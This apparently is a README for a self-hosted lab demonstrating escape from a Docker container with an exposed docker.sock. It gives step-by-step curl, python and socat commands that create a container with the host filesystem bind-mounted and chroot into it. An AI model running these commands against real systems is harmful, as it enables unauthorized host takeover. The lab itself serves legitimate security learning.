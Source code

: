 # container-breaking

For when you can open a shell inside of a remote container
and want to gain access to the host filesystem.

https://blog.quarkslab.com/why-is-exposing-the-docker-socket-a-really-bad-idea.html?utm_source=chatgpt.com

### Setup Commands

```bash
# start container
docker compose up --build -d
# shell into the container if you need
# alpine uses sh not bash
docker exec -it container-escapes sh
```

### Discovery

check if `docker.sock` is mounted

```bash
docker inspect container-escapes --format '{{json .Mounts}}' | jq

# response will look like this if so
[
  {
    "Type": "bind",
    "Source": "/var/run/docker.sock",
    "Destination": "/var/run/docker.sock",
    "Mode": "rw",
    "RW": true,
    "Propagation": "rprivate"
  }
]
```

from shell inside the container
we can reveal socket and file permissions

```bash
# confirm the socket exists and permissions
ls -l /var/run/docker.sock
# output
srw-rw----    1 root     root             0 Oct 15 19:24 /var/run/docker.sock


# see mount table
grep docker.sock /proc/self/mounts || cat /proc/self/mounts | grep docker

# output
tmpfs /run/docker.sock tmpfs rw,nosuid,nodev,noexec,relatime,size=1635648k,mode=755 0 0
```

from a shell inside the container we can also
reveal the container's effective identity and capabilities

```bash
# discover user identity
id
# out
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

# discover kernel capabilities
awk '/CapEff/ {print $2}' /proc/self/status   # hex mask for effective capabilities
# out
00000000a80425fb
```

If CapEff != 0 you have capabilities that may matter like
`SYS_ADMIN` or `SYS_PTRACE`.

### Exploiting Docker Sock Exposure (easy)

This is easy as things like

- python
- curl
- socat
  are already installed and are not blocked to the shell.

```bash
# exec (simulate getting shell)
docker exec -it container-escapes-easy sh
# query the daemon
curl --unix-socket /var/run/docker.sock http://localhost/_ping
curl --unix-socket /var/run/docker.sock http://localhost/containers/json
```

or write python to connect to the external daemon

```python
# make this file and run python filename.py
python3 - <<'PY'
import socket
s=socket.socket(socket.AF_UNIX)
s.connect('/var/run/docker.sock')
s.send(b"GET /_ping HTTP/1.0\r\nHost: localhost\r\n\r\n")
print(s.recv(1024))
s.close()
PY
```

or use socat

```bash
# open interactive connection to the socket; then type: GET /_ping HTTP/1.0<enter><enter>
socat - UNIX-CONNECT:/var/run/docker.sock
# or echo a one-shot:
echo -e 'GET /_ping HTTP/1.0\r\nHost: localhost\r\n\r\n' | socat - UNIX-CONNECT:/var/run/docker.sock
```

---

**Mounting the Host Filesystem**
From inside the container

**Create container with host filesystem mounted:**

```bash
curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" -d '{"Cmd":["sleep","infinity"],"Image":"alpine","HostConfig":{"Binds":["/:/host"]}}' http://localhost/containers/create
```

→ Save the **container ID**

**Start the container:**

```bash
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/CONTAINER_ID/start
```

**Verify it's running:**

```bash
curl --unix-socket /var/run/docker.sock http://localhost/containers/CONTAINER_ID/json | grep -i running
```

**Create exec instance (saves as variable for easy reuse):**

```bash
EXEC_ID=$(curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" -d '{"AttachStdin":true,"AttachStdout":true,"AttachStderr":true,"Tty":true,"Cmd":["chroot","/host","pwd"]}' http://localhost/containers/CONTAINER_ID/exec | grep -o '"Id":"[^"]*"' | cut -d'"' -f4) && echo $EXEC_ID
```

**Start the exec:**

```bash
curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" --no-buffer -N -d '{"Detach":false,"Tty":true}' http://localhost/exec/$EXEC_ID/start
```

**To get another shell, repeat steps 4-5.**

**Delete the Containers**
Back on your machine find the containers you made and delete them

```bash
curl --unix-socket /var/run/docker.sock http://localhost/containers/json?all=true
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/CONTAINER_ID/stop
curl --unix-socket /var/run/docker.sock -X DELETE http://localhost/containers/CONTAINER_ID
```

### Exploiting Docker Sock (hard)

To be continued ...
